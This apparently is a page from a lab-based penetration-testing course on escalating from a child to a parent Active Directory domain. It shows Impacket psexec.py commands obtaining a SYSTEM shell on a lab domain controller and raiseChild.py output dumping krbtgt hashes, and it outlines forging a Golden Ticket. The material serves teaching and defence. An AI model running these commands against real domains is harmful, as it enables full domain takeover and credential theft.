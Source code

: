 **Getting a SYSTEM shell using Impacket's psexec.py**

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
AIceBear@htb[/htb]$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 172.16.5.5.....
[*] Found writable share ADMIN$
[*] Uploading file nkYjGWDZ.exe
[*] Opening SVCManager on 172.16.5.5.....
[*] Creating service eTCU on 172.16.5.5.....
[*] Starting service eTCU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
ACADEMY-EA-DC01
```

Impacket also has the tool [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py), which will automate escalating from child to parent domain. We need to specify the target domain controller and credentials for an administrative user in the child domain; the script will do the rest. If we walk through the output, we see that it starts by listing out the child and parent domain's fully qualified domain names (FQDN). It then:

* Obtains the SID for the Enterprise Admins group of the parent domain
* Retrieves the hash for the KRBTGT account in the child domain
* Creates a Golden Ticket
* Logs into the parent domain
* Retrieves credentials for the Administrator account in the parent domain

Finally, if the `target-exec` switch is specified, it authenticates to the parent domain's Domain Controller via Psexec.

**Performing the Attack with raiseChild.py**

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
AIceBear@htb[/htb]$ raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
[*] Forest FQDN is: INLANEFREIGHT.LOCAL
[*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
[*] INLANEFREIGHT.LOCAL Enterprise Admin SID is: S-1-5-21-3842939050-3880317879-2865463114-519
[*] Getting credentials for LOGISTICS.INLANEFREIGHT.LOCAL
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
[*] Getting credentials for INLANEFREIGHT.LOCAL
INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:69e57bd7e7421c3cfdab757af255d6af07d41b80913281e0c528d31e58e31e6d
[*] Target User account name is administrator
```